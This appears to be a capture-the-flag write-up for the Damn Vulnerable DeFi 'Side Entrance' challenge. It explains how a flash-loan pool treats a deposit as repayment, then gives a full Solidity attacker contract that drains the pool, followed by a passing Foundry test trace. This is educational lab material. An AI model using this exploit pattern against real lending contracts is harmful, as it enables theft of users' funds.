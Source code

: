## SideEntrance challenge


## Challenge Overview:
A deceptively simple lending pool allows anyone to:

- Deposit ETH.
- Withdraw ETH at any time.
- Take out flash loans with **zero fees** using **deposited ETH**.

>  The pool already contains **1000 ETH**, and your account starts with just **1 ETH**.
>  Your goal is to **drain all ETH from the pool and deposit it into the provided recovery address**.


##  Vulnerability Explanation:

The contract logic enables an attacker to:

1. **Borrow ETH** through the `flashLoan` function.
2. Within the `execute()` callback (called during the flash loan), **re-deposit** the same borrowed ETH using `deposit()`.
3. This **satisfies the flash loan repayment check**, even though the attacker still “owns” the deposited ETH via their internal balance.
4. After the loan, the attacker calls `withdraw()` to **withdraw the same ETH** as if it were theirs.
5. Funds are transferred to the attacker and then **forwarded to the recovery account** via the `receive()` function.

This exploit works because the pool **does not differentiate** between repaying a flash loan and depositing user funds.

## Vulnerable Code:

```solidity
function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();// first this function

        if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
    //second withdraw function:
    function withdraw() external {
        uint256 amount = balances[msg.sender];

        delete balances[msg.sender];
        emit Withdraw(msg.sender, amount);

        SafeTransferLib.safeTransferETH(msg.sender, amount); //it looks like call function and  no calldata==>go to the recevier function 
    }

```

## Exploiter Strategy:

1.Deploy an attacker contract with access to the pool and recovery address.

2.Call flashLoan() to borrow the full balance.

3.In execute(), re-deposit the borrowed ETH back into the pool.

4.The loan is considered repaid due to the balance check.

5.Call withdraw() to drain the ETH.

When ETH is sent via .call, receive() forwards all funds to the recovery account.

### Exploit Code:
```solidity
// call the attacker contract
function test_sideEntrance() public checkSolvedByPlayer {
        SideAttranceAttack attack = new SideAttranceAttack(
            address(pool),
            recovery
        );
        attack.Attack();
    }


//Attacker Contract
contract SideAttranceAttack {
    address public pool;
    address public recovery;

    constructor(address _pool, address _recovery) {
        pool = _pool;
        recovery = _recovery;
    }

    function Attack() external {
        SideEntranceLenderPool(pool).flashLoan(address(pool).balance);//borrower initating falshLoan
        SideEntranceLenderPool(pool).withdraw(); //after the flashLoan,withdraw all the ether in the pool -->recovery Account
    }

    
    function execute() external payable {
        SideEntranceLenderPool(pool).deposit{value: msg.value}();// deposit back to the pool through deposit function
    }

    receive() external payable {
        payable(recovery).transfer(msg.value);//transfer to the recovery Account
    }
}
```
### Proof Of Exploit:

```yaml
Ran 1 test for test/side-entrance/SideEntrance.t.sol:SideEntranceChallenge
[PASS] test_sideEntrance() (gas: 347842)
Traces:
  [367742] SideEntranceChallenge::test_sideEntrance()
    ├─ [0] VM::startPrank(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C], player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C])
    │   └─ ← [Return]
    ├─ [235535] → new SideAttranceAttack@0xce110ab5927CC46905460D930CCa0c6fB4666219
    │   └─ ← [Return] 952 bytes of code
    ├─ [86321] SideAttranceAttack::Attack()
    │   ├─ [38751] SideEntranceLenderPool::flashLoan(1000000000000000000000 [1e21])
    │   │   ├─ [31244] SideAttranceAttack::execute{value: 1000000000000000000000}()
    │   │   │   ├─ [23951] SideEntranceLenderPool::deposit{value: 1000000000000000000000}()
    │   │   │   │   ├─ emit Deposit(who: SideAttranceAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 1000000000000000000000 [1e21])
    │   │   │   │   └─ ← [Stop]
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   ├─ [43561] SideEntranceLenderPool::withdraw()
    │   │   ├─ emit Withdraw(who: SideAttranceAttack: [0xce110ab5927CC46905460D930CCa0c6fB4666219], amount: 1000000000000000000000 [1e21])
    │   │   ├─ [34590] SideAttranceAttack::receive{value: 1000000000000000000000}()
    │   │   │   ├─ [0] recovery::fallback{value: 1000000000000000000000}()
    │   │   │   │   └─ ← [Stop]
    │   │   │   └─ ← [Stop]
    │   │   └─ ← [Stop]
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(0, 0, "Pool still has ETH") [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(1000000000000000000000 [1e21], 1000000000000000000000 [1e21], "Not enough ETH in recovery account") [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.78ms (757.72µs CPU time)

Ran 1 test suite in 1.61s (5.78ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

Simple Understanding Case:
[PASS] test_sideEntrance() (gas: 347842)
Traces:
  SideAttranceAttack::Attack()
    ├─ flashLoan(1000 ETH)
    │   └─ execute{value: 1000 ETH} → deposit()
    └─ withdraw() → receive() → forward to recovery 

assertEq(Pool.balance, 0) 
assertEq(Recovery.balance, 1000 ETH) 
```

🔗 **GitHub**: [View](https://github.com/BLOCK-PROGRAMR/SCATER70/tree/main/ctf/damn-vulnerable-defi)